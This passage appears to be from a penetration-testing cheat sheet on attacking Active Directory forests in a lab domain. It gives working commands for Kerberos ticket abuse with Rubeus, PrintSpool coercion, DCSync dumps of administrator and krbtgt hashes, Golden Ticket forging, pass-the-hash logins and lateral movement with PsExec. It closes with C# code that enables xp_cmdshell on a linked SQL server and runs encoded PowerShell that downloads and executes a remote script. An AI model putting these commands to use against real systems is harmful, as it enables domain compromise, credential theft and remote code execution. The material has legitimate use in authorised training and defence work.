  *   ```powershell
      Rubeus.exe asktgs /ticket:ticket.kirbi /dc:rdc01.corp1.com /service:HOST/rdc01.corp1.com /ptt
      ```


* Access Root Domain Controller
  * ```powershell
    c:\tools\SysinternalsSuite\PsExec.exe \\rdc01 cmd
    whoami /groups
    ```

</details>

<details>

<summary>Abusing PrintSpool service to obtain EA Hash</summary>

* Login to server with unconstrained kerberos delegation (eg: appsrv01)
  * Can configure a server to have unconstrained kerberos delegation if domain admin
*   ```powershell
    ls \\rdc01\pipe\spoolss
    Rubeus.exe monitor /interval:5 /filteruser:RDC01$
    .\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
    Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
    lsadump::dcsync /domain:corp1.com /user:corp1\administrator

    #Login via evil-winrm
    evil-winrm -i 192.168.177.60 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
    ```



</details>

<details>

<summary>Compromising An Additional Forest</summary>

* Forest trust has SID Filtering
  * Contents in the ExtraSids field are filtered, grp memberships are not blindly trusted
  * Moving from corp1.com to corp2.com
  *   ```powershell
      # Enable sidhistory (Requires DA of target corp2.com)
      netdom trust corp2.com /d:corp1.com /enablesidhistory:yes
      # Check that TrustAttributes has TREAT_AS_EXTERNAL
      Get-DomainTrust -Domain corp2.com
      ```


* Need to find user with RID >= 1000 && user in domain local security groups so as not to be filtered (Moving from corp1.com to corp2.com)
  * ```powershell
    # Enumerate members of the corp2.com built-in administrators group
    Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com
    # Enumerate Domain (using powerview)
    Get-DomainSID -Domain corp1.com
    # Extracts krbtgt hash for creating a Golden Ticket 
    lsadump::dcsync /domain:corp1.com /user:corp1\krbtgt
    kerberos::golden /user:h4x /domain:corp1.com /sid:S-1-5-21-1587569303-1110564223-1586047116 /krbtgt:6b1bca4a1f7dbd67e28d3491290e4cb3 /sids:S-1-5-21-3759240818-3619593844-2110795065-1106 /ptt
    # Laterally move to dc01
    c:\tools\SysinternalsSuite\PsExec.exe \\dc01.corp2.com cmd
    ```

</details>

<details>

<summary>Linked SQL Servers in Forest</summary>

## Enumeration

```powershell
# Enumeration for any registered SPNs for MSSQL in prod.corp1.com
setspn -T prod -Q MSSQLSvc/*
# Enumeration of registered SPNs across domain trust
setspn -T corp1 -Q MSSQLSvc/*
setspn -T corp2.com -Q MSSQLSvc/*
```

## Exploiting

*   Login to the rdc01.corp1.com mssql server

    <figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   Enumeration for [linked sql servers](../services/1433-mssql.md#linked-sql-servers)

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Obtaining Reverse shell from dc01.corp2.com
  * ```csharp
    String enable_xpcmd = "EXEC ('sp_configure ''show advanced options'', 1; reconfigure; EXEC sp_configure ''xp_cmdshell'', 1; reconfigure;') AT \"dc01.corp2.com\";";
    SqlCommand command = new SqlCommand(enable_xpcmd, con);
    command.ExecuteNonQuery();
    Console.WriteLine("[+] Enabled xp_cmdshell on DC01");

    String powershellCommand = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.222/runall.ps1')";
    String b64Command = Convert.ToBase64String(Encoding.Unicode.GetBytes(powershellCommand));

    String execCmd = $"EXEC ('EXEC xp_cmdshell ''powershell -EncodedCommand {b64Command}''') AT \"dc01.corp2.com\";";
    Console.WriteLine("[+] Executing payload on DC01: " + execCmd);

    command = new SqlCommand(execCmd, con);
    command.ExecuteNonQuery();

    Console.WriteLine("[+] Command executed successfully on DC01.");

    ```

</details>
